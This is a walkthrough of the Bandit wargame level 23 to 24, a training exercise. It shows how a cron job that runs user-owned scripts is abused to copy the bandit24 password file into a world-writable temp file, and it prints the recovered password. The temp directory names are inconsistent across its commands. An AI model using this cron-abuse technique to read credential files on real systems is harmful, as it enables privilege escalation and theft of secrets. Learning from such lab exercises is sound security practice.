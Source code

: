 Bandit Level 23 → Level 24
Level Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…


Commands Used:
Navigating to ```/etc/crond.d```
```
$ cd /etc/crond.d
$ cat cronjob_bandit24.sh

```
We cat the current cronjob
```
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
The script executes and deletes all files in the folder ‘/var/spool/bandit24’. This is the case because it is run as bandit24 user, so the variable ‘myname’ contains the value ‘bandit24’. The for loop goes through the files. The first if statement makes sure the directories ‘.’ and ‘..’, which are representing the current and previous folders, are ignored. Inside the if statement is the code to execute a script, but only if the owner is bandit23. Then the file will be deleted.

Since we are currently logged in as bandit23 user, we can create a script that will give us the password for bandit24. First, create a file in the ’tmp’ folder. This prevents an early deletion of the file and you have a copy in case something went wrong. Then move the file to the folder ‘/var/spool/bandit24/foo’ and it will be executed.

```
$ mktemp -d
/tmp/tmp.dkrDx8OnVc
$ cd /tmp/tmp.dkrDx8OnVc
$ vim bandit24_pass.sh
```

We then write the shell script
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.pjGzidHvH/password
```
The cron job is executed by user bandit24 so when the job executes our script it is also going to have the permission of bandit24 which is not the same permission as we have because of this when the script tries to write output to the file called “password” it will fail so lets change the permission of all the files in the current folder so that any user can access them.

```
$ touch password
$ chmod 777 -R /tmp/tmp.dkrDx80nVC
$ cp bandit24_pass.sh /var/spool/bandit24/foo
$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```



Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
